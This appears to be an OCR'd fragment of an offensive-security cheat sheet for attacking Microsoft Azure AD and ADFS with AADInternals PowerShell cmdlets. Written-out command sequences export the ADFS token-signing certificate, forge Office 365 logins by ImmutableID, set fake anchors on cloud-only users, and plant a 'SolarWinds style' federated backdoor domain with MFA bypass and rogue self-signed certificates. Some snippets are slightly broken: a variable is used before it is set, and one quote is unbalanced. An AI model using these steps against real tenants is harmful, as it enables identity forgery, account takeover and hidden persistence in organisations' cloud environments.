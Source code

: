     - Lateral Movement On-Prem to Cloud:
        1. On-Prem - Extract the signing certificate as DA, select immutableID of an On-Prem user

        ```powershell
        $email = ""
        $ID = Get-AAdIntUser -UserPrincipalName $email | Select-Object -Property immutableId
        Export-AADIntADFSSigningCertificate 
        Open-AADIntOffice365Portal -ImmutableID $ID -Issuer https://domain1.com/adfs/services/trust -PfxFileName cert.pfx -Verbose       
        ```

        2. Cloud-Only - Cloud-Only requires us to create Immutable first use any users with immutableID to access cloud apps 

        ```powershell
        # create realistic ImmutableID and set it for Cloud-Only user
        $email = ""
        $sourceAnchor = Get-AAdIntUser -UserPrincipalName $email | Select-Object -Property sourceAnchor
        $guid = [System.Convert]::ToBase64String((New-Guid).tobytearray())
        $guid = "User_$guid"
        Set-AADIntAzureADObject -CloudAnchor $guid -SourceAnchor $sourceAnchor
        Export-AADIntADFSSigningCertificate
        $ID = "$guid" # ImmutableID of user
        Open-AADIntOffice365Portal -ImmutableID $ID -Issuer https://domain1.com/adfs/services/trust -PfxFileName cert.pfx -Verbose
        ```

    - Persistence (Global Admin and Domain Admin) - SolarWinds Style
        1. If we have GA on a tenant, we can adda new verified domain form our tenant and configure its authentication type to Federed and trust aspecific certfificate "any.sts" in the command and issuer.

        ```powershell          
        ConvertTo-AAdIntBackdoor -DomainName $domain
        $domain = "AttackerControlled.com"

        # Impersonate a User via ImmutableId
        # Get-MSOLUser | select userPrincipalName,ImmutableID   
        $email = ""
        $ID = Get-AAdIntUser -UserPrincipalName $email | Select-Object -Property immutableId

        # a real verified AzureAD domain
        Open-AADIntOffice365Portal -ImmutableID $ID -Issuer https://$domain/b231111" -UseBuiltInCertificate -ByPassMFA $true 
        ```

        2. Create and Import new certificates on ADFS Server

        ```powershell
        New-AADIntADFSSelfSignedCertificates # default cert password AADInternals
        Update-AADIntADFSFederationSettings -Domain $domain
        ```        


